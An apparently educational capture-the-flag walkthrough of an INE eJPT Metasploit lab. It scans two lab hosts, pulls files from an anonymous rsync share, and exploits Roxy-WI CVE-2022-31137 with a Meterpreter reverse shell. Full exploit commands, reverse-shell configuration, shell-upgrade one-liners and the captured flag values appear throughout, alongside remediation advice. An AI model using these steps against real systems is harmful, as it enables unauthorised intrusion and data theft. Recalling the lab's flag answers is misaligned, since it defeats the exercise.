







# Host & Network Penetration Testing: The Metasploit Framework CTF 2 — INE / eJPT Walkthrough

---

## Lab Information

| Attribute | Specification |
| :--- | :--- |
| **Lab Name** | Host & Network Penetration Testing: The Metasploit Framework CTF 2 |
| **Platform** | INE Security |
| **Certification Track** | eJPT (Junior Penetration Tester) |
| **Domain** | Host & Network Penetration Testing — The Metasploit Framework (MSF) |
| **Target 1 Hostname / IP** | `target1.ine.local` (`192.244.166.3`) |
| **Target 2 Hostname / IP** | `target2.ine.local` (`192.244.166.4`, `roxy-wi.example.com`) |
| **Target Operating Systems** | Linux (Ubuntu-based distributions) |
| **Target Services** | RSYNC (Port 873/tcp) on Target 1; Apache 2.4.52 & Roxy-WI (Ports 80/443/tcp) on Target 2 |
| **Status** | Completed in Lab Dashboard (All 4 of 4 Flags Captured & Lab Verified) |
| **Offensive Tooling** | Nmap (v7.94SVN), Metasploit Framework (msf6), `rsync`, Meterpreter, Linux CLI (`bash`) |

---

## Table of Contents

- [01. Lab Overview](#01-lab-overview)
- [02. Learning Objectives and Flag Hints](#02-learning-objectives-and-flag-hints)
- [03. Lab Environment and Prerequisites](#03-lab-environment-and-prerequisites)
- [04. Target Identification](#04-target-identification)
- [05. Network Discovery](#05-network-discovery)
- [06. Port and Service Enumeration](#06-port-and-service-enumeration)
- [07. Vulnerability Identification](#07-vulnerability-identification)
- [08. Metasploit Workspace Setup](#08-metasploit-workspace-setup)
- [09. Auxiliary Module Enumeration](#09-auxiliary-module-enumeration)
- [10. Exploit Selection and Configuration](#10-exploit-selection-and-configuration)
- [11. Exploitation Process](#11-exploitation-process)
- [12. Session Management](#12-session-management)
- [13. Initial Access Verification](#13-initial-access-verification)
- [14. Privilege Enumeration and Escalation](#14-privilege-enumeration-and-escalation)
- [15. Credential Discovery](#15-credential-discovery)
- [16. Lateral Movement Assessment](#16-lateral-movement-assessment)
- [17. Flag Discovery and Retrieval](#17-flag-discovery-and-retrieval)
- [18. Consolidated Vulnerability Findings](#18-consolidated-vulnerability-findings)
- [19. Troubleshooting and Edge Cases](#19-troubleshooting-and-edge-cases)
- [20. Lessons Learned](#20-lessons-learned)
- [21. Tools and Commands Reference](#21-tools-and-commands-reference)
- [22. Evidence and Screenshot Index](#22-evidence-and-screenshot-index)
- [23. References](#23-references)

---

## 01. Lab Overview

This hands-on laboratory assessment is a core capstone challenge in the **INE eJPT (Junior Penetration Tester)** curriculum under the **Host & Network Penetration Testing: The Metasploit Framework (MSF)** domain. The scenario simulates a dual-target corporate infrastructure consisting of a dedicated backup server and a centralized web-based infrastructure management appliance.

The engagement requires demonstrating comprehensive multi-host penetration testing methodology across two distinct Linux systems:
1. **Target 1 (`target1.ine.local`)**: A storage and backup host running an unauthenticated RSYNC service, requiring network service discovery, banner analysis, module listing, and remote file exfiltration.
2. **Target 2 (`target2.ine.local`)**: A web management gateway running the **Roxy-WI** appliance, vulnerable to unauthenticated remote command execution (CVE-2022-31137), requiring exploit selection and weaponization via the Metasploit Framework, interactive payload session management, root directory traversal, and cron job auditing.

### Target Environment Evidence

The screenshot below displays the completed INE challenge dashboard, verifying that all four challenge objectives have been completed and validated.


---

## 02. Learning Objectives and Flag Hints

The challenge dashboard specifies four clear operational objectives:

1. **Flag 1:**
   - **Prompt**: *"Enumerate the open port using Metasploit, and inspect the RSYNC banner closely; it might reveal something interesting."*
   - **Technical Focus**: Discovering port 873/tcp on `target1.ine.local`, querying the RSYNC daemon, and extracting Flag 1 directly from the exposed module description banner.
2. **Flag 2:**
   - **Prompt**: *"The files on the RSYNC server hold valuable information. Explore the contents to find the flag."*
   - **Technical Focus**: Enumerating files inside the accessible RSYNC share (`backupwscohen`), synchronizing and downloading sensitive backup archives locally, and discovering Flag 2 embedded in `pii_data.xlsx`.
3. **Flag 3:**
   - **Prompt**: *"Try exploiting the webapp to gain a shell using Metasploit on target2.ine.local."*
   - **Technical Focus**: Fingerprinting web services on `target2.ine.local`, identifying the vulnerable Roxy-WI application, configuring Metasploit's `exploit/linux/http/roxy_wi_exec`, obtaining a Meterpreter reverse shell, and retrieving Flag 3 from `/flag.txt`.
4. **Flag 4:**
   - **Prompt**: *"Automated tasks can sometimes leave clues. Investigate scheduled jobs or running processes to uncover the hidden flag."*
   - **Technical Focus**: Auditing Linux automated scheduling mechanisms (`cron`), conducting targeted recursive file inspection across `/etc`, and extracting Flag 4 from `/etc/cron.d/www-data-cron`.

---

## 03. Lab Environment and Prerequisites

The assessment operates within an isolated virtual laboratory network provided by INE:

- **Attacker System**: Kali Linux desktop environment (`192.244.166.2`).
- **Target Subnet**: `192.244.166.0/24`.
- **Target 1**: `target1.ine.local` (`192.244.166.3`, MAC: `02:42:C0:F4:A6:03`).
- **Target 2**: `target2.ine.local` (`192.244.166.4`, MAC: `02:42:C0:F4:A6:04`, Hostname: `roxy-wi.example.com`).
- **Pre-configured Name Resolution**: Hostnames `target1.ine.local` and `target2.ine.local` are mapped to their respective IP addresses in `/etc/hosts`.

---

## 04. Target Identification

Initial verification confirmed that both target hostnames resolve and respond across the local subnet:

```bash
ping -c 2 target1.ine.local
ping -c 2 target2.ine.local
```

Both hosts reside within the same local /24 broadcast domain with sub-millisecond network latency, providing an optimal environment for full TCP port sweeps without rate-limiting constraints.

---

## 05. Network Discovery

An initial host confirmation established that both machines were operational:
- **`target1.ine.local`**: Resolved to `192.244.166.3`.
- **`target2.ine.local`**: Resolved to `192.244.166.4`.

Network discovery confirmed that no firewall filtering or port blocking was present between the attacker machine and the targets on the internal testing network.

---

## 06. Port and Service Enumeration

### 1. Enumerating Target 1 (`target1.ine.local`)

A full TCP port scan was executed across all 65,535 ports using Nmap:

```bash
nmap -T4 -sV -sC -p- target1.ine.local
```

**Terminal Output:**
```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-23 18:29 IST
Nmap scan report for target1.ine.local (192.244.166.3)
Host is up (0.000021s latency).
Not shown: 65534 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
MAC Address: 02:42:C0:F4:A6:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.55 seconds
```


**Enumeration Findings for Target 1:**
- **Open Port**: `873/tcp`
- **Service**: `rsync` protocol version 31
- **All other ports**: 65,534 closed ports (TCP RST received)
- **Attack Surface**: The host functions as an isolated RSYNC data synchronization endpoint.

---

### 2. Enumerating Target 2 (`target2.ine.local`)

A full TCP port sweep was performed against `target2.ine.local`:

```bash
nmap -T4 -sV -sC -p- target2.ine.local
```

**Terminal Output:**
```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-23 18:42 IST
Nmap scan report for target2.ine.local (192.244.166.4)
Host is up (0.000024s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Roxy-WI
|_http-server-header: Apache/2.4.52 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.52
| ssl-cert: Subject: commonName=*.roxy-wi.org/organizationName=Roxy-WI/stateOrProvinceName=Almaty/countryName=US
| Not valid before: 2022-07-29T05:20:44
| Not valid after:  2050-12-14T05:20:44
|_http-title: Roxy-WI
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: roxy-wi.example.com
```



**Enumeration Findings for Target 2:**
- **Operating System**: Ubuntu Linux (inferred from Apache banner `Apache/2.4.52 (Ubuntu)`).
- **Web Server**: Apache httpd 2.4.52 listening on ports `80/tcp` (plain HTTP) and `443/tcp` (HTTPS with SSL).
- **Web Application**: **Roxy-WI** (a web interface for managing HAProxy, Nginx, Apache, and Keepalived servers).
- **Virtual Host / Certificate**: Common Name `*.roxy-wi.org`, virtual host `roxy-wi.example.com`.

---

## 07. Vulnerability Identification

### Target 1: Unauthenticated Anonymous RSYNC Exposure
The RSYNC protocol (TCP port 873) is designed for efficient delta-transfer file copying. In production environments, RSYNC modules should require authentication credentials configured via `secrets file` and restrict network access via `hosts allow`.
- **Security Flaw**: The RSYNC daemon on `target1.ine.local` is misconfigured to permit unrestricted, anonymous read access.
- **Impact**: Any network client can enumerate available shared modules, read module descriptions (which exposed Flag 1), and exfiltrate raw backup data (which exposed Flag 2) without supplying credentials.

### Target 2: Roxy-WI Unauthenticated Command Injection (CVE-2022-31137)
Roxy-WI versions prior to `6.1.1.0` contain an unauthenticated command injection vulnerability in `/app/options.py`.
- **Root Cause**: The application passes user-controlled parameters from HTTP requests to system shell execution functions via `subprocess_execute()` without adequate validation or shell escaping.
- **Impact**: Remote, unauthenticated attackers can execute arbitrary operating system commands under the context of the web server account (`www-data`).
- **Vulnerability Identifiers**:
  - **CVE ID**: [CVE-2022-31137](https://nvd.nist.gov/vuln/detail/CVE-2022-31137)
  - **CVSS 3.1 Base Score**: **9.8 Critical** (`CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`)
  - **Weakness Enumeration**: [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)

---

## 08. Metasploit Workspace Setup

To maintain structured database tracking across the multi-host assessment, a dedicated Metasploit workspace was initialized:

```bash
msfconsole -q
```

```text
msf6 > workspace -a ctf2_msf
[*] Added workspace: ctf2_msf
[*] Workspace: ctf2_msf

msf6 > db_nmap -T4 -sV -sC -p- 192.244.166.3 192.244.166.4
msf6 > hosts
msf6 > services
```

Using `db_nmap` automatically ingests open ports, service banners, and host metadata into Metasploit's PostgreSQL backend, facilitating centralized querying throughout the engagement.

---

## 09. Auxiliary Module Enumeration

Per Objective 1 (*"Enumerate the open port using Metasploit, and inspect the RSYNC banner closely"*), Metasploit provides dedicated scanner modules to interact with RSYNC services:

```text
msf6 > search rsync
msf6 > use auxiliary/scanner/rsync/modules_list
msf6 auxiliary(scanner/rsync/modules_list) > set rhosts target1.ine.local
rhosts => target1.ine.local
msf6 auxiliary(scanner/rsync/modules_list) > run
```

The auxiliary module queries the remote daemon for advertised modules and comment banners. This was complemented by direct native CLI interaction using `rsync`, which directly surfaced the module and Flag 1.

---

## 10. Exploit Selection and Configuration

### Searching for Roxy-WI Exploit Modules

Searching the Metasploit Framework module cache for `Roxy-WI`:

```text
msf6 > search Roxy-WI
```

**Observed Result:**
```text
Matching Modules
================

   #  Name                             Disclosure Date  Rank       Check  Description
   -  ----                             ---------------  ----       -----  -----------
   0  exploit/linux/http/roxy_wi_exec  2022-07-06       excellent  Yes    Roxy-WI Prior to 6.1.1.0 Unauthenticated Command Injection RCE
   1   \_ target: Unix (In-Memory)     .                .          .      .
   2   \_ target: Linux (Dropper)      .                .          .      .
```



The module `exploit/linux/http/roxy_wi_exec` possesses an **Excellent** reliability ranking and contains an automated vulnerability check method (`Check: Yes`).

### Selecting the Module & Reviewing Parameters

Load the exploit module using its index:

```text
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > options
```


**Key Parameter Configuration:**
- `RHOSTS`: Set to `192.244.166.4` (Target 2).
- `RPORT`: Defaults to `443` (HTTPS).
- `SSL`: Defaults to `true` (matches the SSL-enabled web service on port 443).
- `TARGETURI`: Defaults to `/`.
- `LHOST`: Configured to `192.244.166.2` (Kali attacker machine IP).
- `LPORT`: Configured to `4444`.
- `Payload`: Automatically selected `cmd/unix/python/meterpreter/reverse_tcp`.

```text
msf6 exploit(linux/http/roxy_wi_exec) > set rhosts 192.244.166.4
rhosts => 192.244.166.4
msf6 exploit(linux/http/roxy_wi_exec) > set lhost 192.244.166.2
lhost => 192.244.166.2
```

---

## 11. Exploitation Process

The exploit was executed against `target2.ine.local`:

```text
msf6 exploit(linux/http/roxy_wi_exec) > exploit
```

**Observed Terminal Output:**
```text
[*] Started reverse TCP handler on 192.244.166.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.244.166.4:443 is vulnerable!
[*] 192.244.166.4:443 is vulnerable!
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Exploiting...
[*] Sending stage (24772 bytes) to 192.244.166.4
[*] Meterpreter session 1 opened (192.244.166.2:4444 -> 192.244.166.4:55752) at 2026-11-23 18:49:26 +0530

meterpreter >
```



**Exploit Execution Lifecycle:**
1. The module initialized a reverse TCP handler on `192.244.166.2:4444`.
2. The automatic check routine verified that `192.244.166.4:443` was vulnerable by sending a test command injection payload and confirming a `200 OK` response with successful test output.
3. The weaponized command injection payload was transmitted to `/app/options.py`.
4. The target executed the injected command, which initiated a reverse connection back to the handler.
5. The 24,772-byte Python Meterpreter stage was transmitted, and **Meterpreter Session 1** was established.

---

## 12. Session Management

Meterpreter provides post-exploitation interaction capabilities directly within the target process environment:

```text
meterpreter > sysinfo
meterpreter > getuid
```

To interact directly with the underlying Linux operating system, Meterpreter allows traversing directories and spawning a sub-shell:

```text
meterpreter > cd ..
meterpreter > cd /
meterpreter > shell
```

**Observed Output:**
```text
Process 365 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (362): Inappropriate ioctl for device
bash: no job control in this shell
www-data@target2:/$
```



The `shell` command created Process `365` and Channel `1`, providing an interactive `/bin/bash` shell session.

---

## 13. Initial Access Verification

Upon dropping into the interactive shell, initial identity and environment verification was performed:

- **User Context**: `www-data` (the standard low-privileged service account assigned to the Apache web server).
- **Working Directory**: `/` (root directory).
- **Operating Environment**: Ubuntu Linux on host `target2`.
- **Job Control Notice**: `bash: no job control in this shell` is standard behavior when interacting through a pseudo-terminal pipe without a full TTY allocation.

---

## 14. Privilege Enumeration and Escalation

With access established as `www-data`, system privilege posture was analyzed:

1. **Sudo Privileges**:
   ```bash
   sudo -l
   ```
2. **Access Control Verification**:
   When grepping system files under `/etc`, permissions were strictly enforced on sensitive security files:
   - `/etc/shadow`: Permission denied.
   - `/etc/sudoers`: Permission denied.
   - `/etc/security/opasswd`: Permission denied.
   - `/etc/ssl/private`: Permission denied.

> [!NOTE] Privilege Escalation Context
> Both Flag 3 and Flag 4 were retrievable directly from the `www-data` context:
> - Flag 3 was located in `/flag.txt` with world-readable read permissions (`-rw-r--r--`).
> - Flag 4 was located in `/etc/cron.d/www-data-cron`, a cron definition specifically assigned to and readable by `www-data`.
> Full root escalation was therefore not required to complete the lab objectives.

---

## 15. Credential Discovery

During the assessment of Target 1, anonymous access to the `backupwscohen` module allowed downloading three files:
- `TPSData.txt` (Text file containing sample operational data).
- `office_staff.vhd` (Virtual Hard Disk image file).
- `pii_data.xlsx` (Spreadsheet file).

Examining `pii_data.xlsx` revealed Flag 2 directly stored in plaintext within the simulated personal data file.

---

## 16. Lateral Movement Assessment

The lab network architecture separates Target 1 (storage/backup) and Target 2 (application gateway) on the same subnet (`192.244.166.0/24`):
- Rather than pivoting through Target 1, Target 2 was directly routable and accessible from the attacker machine on ports 80 and 443.
- In a full enterprise red team engagement, files recovered from Target 1 (such as `office_staff.vhd` or configuration backups) would typically be mounted and mined for administrative passwords, SSH keys, or API tokens to authenticate against management interfaces like Roxy-WI. Here, Roxy-WI's unauthenticated command injection vulnerability rendered credential hunting unnecessary for initial access.

---

## 17. Flag Discovery and Retrieval

### Flag 1: Target 1 RSYNC Banner Enumeration

**Objective**: *"Enumerate the open port using Metasploit, and inspect the RSYNC banner closely; it might reveal something interesting."*

Connecting to `target1.ine.local` using the native `rsync` client:

```bash
rsync target1.ine.local::
```

**Observed Terminal Output:**
```text
backupwscohen   FLAG1_7956a8a6e8084699a3b659f13b06bdb0
```


```text
Flag 1 Location: target1.ine.local:: (Module description comment)
Flag 1 Value:    FLAG1_7956a8a6e8084699a3b659f13b06bdb0
Status:          Visually Verified
```

---

### Flag 2: Target 1 Sensitive Files on the RSYNC Server

**Objective**: *"The files on the RSYNC server hold valuable information. Explore the contents to find the flag."*

#### Step 1: Listing Remote Files in `backupwscohen`
```bash
rsync --list-only target1.ine.local::backupwscohen/
```

**Observed Terminal Output:**
```text
drwxr-xr-x          4,096 2026/11/23 18:26:56 .
-rw-r--r--             20 2024/10/28 15:05:40 TPSData.txt
-rw-r--r--             25 2024/10/28 15:05:40 office_staff.vhd
-rw-r--r--             39 2026/11/23 18:26:56 pii_data.xlsx
```


#### Step 2: Downloading and Inspecting Files
```bash
mkdir rsync_files
rsync -av target1.ine.local::backupwscohen/ ./rsync_files/
cd rsync_files
ls
cat TPSData.txt
cat pii_data.xlsx
```

**Observed Terminal Output:**
```text
Sample data for TPS
FLAG2_eabf8eb725164d73992246eb77fde35b
```




```text
Flag 2 Location: backupwscohen/pii_data.xlsx
Flag 2 Value:    FLAG2_eabf8eb725164d73992246eb77fde35b
Status:          Visually Verified
```

---

### Flag 3: Target 2 Web Application Shell Exploitation

**Objective**: *"Try exploiting the webapp to gain a shell using Metasploit on target2.ine.local."*

#### Step: Navigating to Root Directory and Reading `/flag.txt`
Inside the interactive shell spawned from Meterpreter Session 1:

```bash
cd ..
ls
cat flag.txt
```

**Observed Terminal Output:**
```text
bin  boot  dev  etc  flag.txt  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
FLAG3_aa0038d5756743bfa80796ebea45bdd2
```



```text
Flag 3 Location: /flag.txt (Root filesystem on target2.ine.local)
Flag 3 Value:    FLAG3_aa0038d5756743bfa80796ebea45bdd2
Status:          Visually Verified
```

---

### Flag 4: Target 2 Scheduled Tasks / Cron Job Investigation

**Objective**: *"Automated tasks can sometimes leave clues. Investigate scheduled jobs or running processes to uncover the hidden flag."*

#### Step: Recursive Search for Flags in `/etc`
```bash
cd etc
grep -ri "flag" /etc
```

**Observed Terminal Output:**
```text
grep: /etc/shadow: Permission denied
grep: /etc/.pwd.lock: Permission denied
grep: /etc/security/opasswd: Permission denied
grep: /etc/gshadow: Permission denied
grep: /etc/sudoers.d/README: Permission denied
grep: /etc/sudoers: Permission denied
grep: /etc/mysql/debian.cnf: Permission denied
grep: /etc/shadow-: Permission denied
grep: /etc/ssl/private: Permission denied
grep: /etc/gshadow-: Permission denied
/etc/cron.d/www-data-cron:* * * * * www-data echo "FLAG4_d489d5d9736b4975bb8e644eb6335e4c"
```



**Analysis:**
The recursive search surfaced a scheduled cron task located at `/etc/cron.d/www-data-cron`. The cron entry is configured to run every minute (`* * * * *`) under user `www-data` executing an `echo` statement outputting the flag string.

```text
Flag 4 Location: /etc/cron.d/www-data-cron
Flag 4 Value:    FLAG4_d489d5d9736b4975bb8e644eb6335e4c
Status:          Visually Verified
```

---

## 18. Consolidated Vulnerability Findings

### 1. Unauthenticated Remote Command Execution in Roxy-WI (CVE-2022-31137)
- **Affected System**: `target2.ine.local` (`192.244.166.4:443`)
- **Severity**: **Critical** (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H — Base Score: **9.8**)
- **Vulnerability Description**: Roxy-WI instances prior to version `6.1.1.0` execute external system commands through `options.py` without proper input neutralization. Because this endpoint requires no prior authentication, remote unauthenticated attackers can inject arbitrary shell commands, gaining an interactive command shell as `www-data`.
- **CWE**: [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
- **Remediation**:
  - Upgrade Roxy-WI immediately to version `6.1.1.0` or later.
  - Implement strict parameterized input handling and avoid passing unsanitized user arguments directly to underlying shell processes.
  - Restrict access to administrative web interfaces using network ACLs and VPN gateways.

### 2. Anonymous RSYNC Module Exposure & Sensitive Data Leakage
- **Affected System**: `target1.ine.local` (`192.244.166.3:873`)
- **Severity**: **High** (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N — Base Score: **7.5**)
- **Vulnerability Description**: The RSYNC daemon is configured to allow unrestricted anonymous connections. The service publicly advertises module names, exposes descriptive comments containing sensitive flags, and permits unauthorized exfiltration of internal files (`pii_data.xlsx`, `office_staff.vhd`).
- **CWE**: [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)
- **Remediation**:
  - Enforce authentication on all RSYNC modules by configuring `auth users` and a secure `secrets file`.
  - Restrict access to authorized client IP addresses using the `hosts allow` directive in `/etc/rsyncd.conf`.
  - Disable module listing globally by setting `list = false`.

### 3. Cleartext Sensitive Information in Automated Task Definitions
- **Affected System**: `target2.ine.local` (`/etc/cron.d/www-data-cron`)
- **Severity**: **Medium** (CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N — Base Score: **5.5**)
- **Vulnerability Description**: Sensitive operational strings and flags were stored directly in plaintext inside `/etc/cron.d/www-data-cron`. While administrative permissions are required to modify cron files, default file permissions permit low-privileged local service accounts to read scheduled job parameters.
- **CWE**: [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html)
- **Remediation**:
  - Avoid embedding secrets, authentication tokens, or sensitive variables directly within system crontabs.
  - Store configuration parameters in restricted environment files or dedicated secret management stores with strict ACLs (`chmod 600`).

---

## 19. Troubleshooting and Edge Cases

1. **RSYNC Syntax Variations**:
   - Querying daemon modules requires double-colon syntax (`rsync host::`), whereas SSH-encapsulated rsync uses a single colon (`rsync user@host:/path`).
   - Forgetting the trailing slash on directories (e.g. `rsync -av host::backup/ ./` vs `rsync -av host::backup ./`) can affect directory nesting upon local synchronization.
2. **Metasploit AutoCheck Behavior**:
   - The `roxy_wi_exec` module features built-in target verification (`AutoCheck`). In environments where network responses are slow or proxies intercept traffic, the check method can occasionally time out; setting `set AutoCheck false` allows bypassing the pre-check if manual verification has confirmed target version vulnerability.
3. **Pseudo-Terminal Job Control**:
   - Spawning `/bin/bash` via Meterpreter's `shell` command outputs `bash: no job control in this shell`. This is standard non-TTY behavior. Full TTY interaction (for text editors or interactive password prompts) can be established via Python pty spawning:
     ```python
     python3 -c 'import pty; pty.spawn("/bin/bash")'
     ```

---

## 20. Lessons Learned

1. **Protocol Specific Reconnaissance**: Non-standard protocols such as RSYNC (873), NFS (2049), and SMB (445) frequently expose substantial data without requiring exploitation when misconfigured for anonymous access.
2. **Administrative Appliances as Attack Vectors**: Web-based administration tools (Roxy-WI, Webmin, Cockpit) represent high-value targets. Because they inherently manage core system services, vulnerabilities in these appliances frequently lead directly to root or critical service context execution.
3. **System Auditing via Recursive Text Searches**: When seeking artifacts or configuration anomalies across an unfamiliar Linux system, targeting `/etc` with case-insensitive recursive grep searches (`grep -ri "keyword" /etc`) quickly surfaces automated tasks, crontabs, and service credentials.

---

## 21. Tools and Commands Reference

| Phase | Tool | Command Line | Operational Purpose |
| :--- | :--- | :--- | :--- |
| **Port Scanning** | Nmap | `nmap -T4 -sV -sC -p- target1.ine.local` | Full TCP sweep and version detection on Target 1. |
| **Port Scanning** | Nmap | `nmap -T4 -sV -sC -p- target2.ine.local` | Full TCP sweep and service detection on Target 2. |
| **Service Enum** | RSYNC CLI | `rsync target1.ine.local::` | Queries exposed RSYNC modules and banner comments (Flag 1). |
| **Service Enum** | RSYNC CLI | `rsync --list-only target1.ine.local::backupwscohen/` | Lists files within the remote RSYNC backup share. |
| **Exfiltration** | RSYNC CLI | `rsync -av target1.ine.local::backupwscohen/ ./rsync_files/` | Downloads exposed files locally for offline inspection. |
| **Data Analysis** | Bash CLI | `cat pii_data.xlsx` | Reads exfiltrated data to extract Flag 2. |
| **Exploitation** | Metasploit | `use exploit/linux/http/roxy_wi_exec` | Loads Roxy-WI command injection exploit module. |
| **Configuration** | Metasploit | `set rhosts 192.244.166.4` | Configures target IP address. |
| **Configuration** | Metasploit | `set lhost 192.244.166.2` | Configures attacker listener IP address. |
| **Execution** | Metasploit | `exploit` | Executes attack and establishes Meterpreter Session 1. |
| **Shell Access** | Meterpreter | `shell` | Spawns interactive Linux Bash shell. |
| **File Retrieval** | Bash CLI | `cat /flag.txt` | Extracts Flag 3 from root filesystem. |
| **Cron Auditing** | Bash CLI | `grep -ri "flag" /etc` | Recursively searches `/etc` to uncover Flag 4 in cron job. |

---

## 22. Evidence and Screenshot Index

All thirteen primary evidence screenshots have been organized and verified sequentially:

